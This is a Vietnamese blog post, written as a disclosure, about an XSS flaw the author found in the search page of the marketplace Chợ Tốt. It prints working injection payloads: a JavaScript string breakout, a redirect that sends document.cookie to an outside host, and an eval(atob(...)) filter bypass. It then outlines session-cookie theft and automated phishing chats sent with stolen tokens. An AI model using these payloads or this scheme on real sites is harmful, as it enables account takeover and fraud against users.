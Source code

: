```yaml
---
layout: post
title: Tôi đã hack Chợ Tốt như thế nào
thumbnail: hack-cho-tot.jpg
category: Chuyện lập trình
tags:
 - hoc-hack-co-ban
 - hacking-co-ban
 - cach-tro-thanh-hacker-mu-den
 - day-lam-hacker-tu-a-z
related_posts:
 - title: 
   link: http://laptrinhcuocsong.com/hoc-lam-hacker.html
 - title: 
   link: http://laptrinhcuocsong.com/tong-hop-nhung-kenh-youtube-ma-dan-cong-nghe-nen-theo-doi-phan-2.html
 - title: 
   link: http://laptrinhcuocsong.com/that-vong-su-tro-lai-cua-hiep-hoi-hacker-viet-nam-hva.html
 - title: 
   link: http://laptrinhcuocsong.com/huong-dan-giai-whitehat-wargame-web-security-bai-1-den-bai-4.html
---
```


Hôm nay thử dạo một vòng Chợ Tốt kiếm mấy món hàng cũ, thì phát hiện lỗi XSS, đây là lỗi không mới, cách thức tấn công cũng đơn giản, nhưng nhiều khi cần rất nhiều sáng tạo trong quá trình khai thác.

Thử tìm kiếm với từ khóa "iphone 7" thì thấy như thế này:

![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/mh0excozyx_c1.png)

Ai chà, url đẹp phết, mình thích url này rồi đấy, search key đã được bỏ dấu và thêm dấu gạch ngang cho hợp chuẩn. Thử thêm một ít html vào thì thế này (ảnh nhỏ các bạn mở ở tab mới để xem nhé)

![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/xq1tymmaf1_c2.png)

Rất nhiều nơi, search key đã được entities, tuy nhiên vì lý do nào đó, search key trong đoạn javascript này đã không được xử lý.
Vấn đề là, từ khóa nó đang nằm trong string, nên alert không xảy ra hiện tượng gì. 

Cuối cùng mình sửa search key như sau:

```javascript
iphone 7" }; alert("something went wrong"); var a = { "a":"
```

Thì nhận được alert:

![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/sk8bcvtkaw_c3.png)

Bạn thấy không? Mình muốn nói đến cái search key trên, từ một property của object, nó đã tách thành 2 object, và alert nằm giữa một cách đẹp đẽ và tuyệt vời.

OK, giờ thử redrect đến 1 trang ngoài cùng với cookie của người dùng xem sao, mình thử code này:

```javascript
iphone 7" }; window.location="http://google.com/" + document.cookie; var a = { "a":"
```

![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/o7l9sidows_c4.png)

Như các bạn thấy, coder đã cẩn thận bỏ dấu gạch chéo // và phần sau của search key đi, cũng như lọc một số từ đặc biệt trong chuỗi, như vậy là không thể tương tác gì url bên ngoài được? Không, phải nghĩ cách khác. Cuối cùng thì mình đã tìm ra cách hoàn hảo nhất là đây:

```javascript
iphone 7" }; eval(atob("xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx")); var a = { "a":"
```

Với xxxxx là mã hóa base64 của một đoạn code javascript bất kỳ, tức là chúng ta có thể chèn bất kỳ đoạn javascript nào vào Chợ Tốt. Ví dụ sau đây để alert cookie:

```javascript
iphone 7" }; eval(atob("YWxlcnQoIGRvY3VtZW50LmNvb2tpZSk=")); var a = { "a":"
```

Và đây là kết quả:

![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/t9g7rdgqhh_9.png)

Đã đến bước này, thì các bạn đã biết mình sẽ làm gì tiếp theo rồi phải không? Mình đăng 1 bài viết mua bán với giá rất rẻ, trong đó có kèm link, lấy cookie để vào được tài khoản của những người không may click vào link.

Nhưng không dừng lại ở đó, khi đã vào được tài khoản của vài thành viên khác, mình có thể mở rộng hơn qua chính công cụ chat của Chợ Tốt bằng tokenKey đã lấy được. Viết script tự động chat với nhiều thành viên khác với nội dung bán đồ rất rẻ, và kèm link để câu.

![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/j5w20u6nil_c6.png)

Tâm lý là khi được chat về sản phẩm đang bán, người dùng rất dễ click vào link, social engineering khá hiệu quả trong trường hợp này.

Hiện tại mình đã report, bên ChoTot đã xác nhận, fix lỗi xong và thông báo lại cho mình

![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/6uo1x836x9_chotot.png)

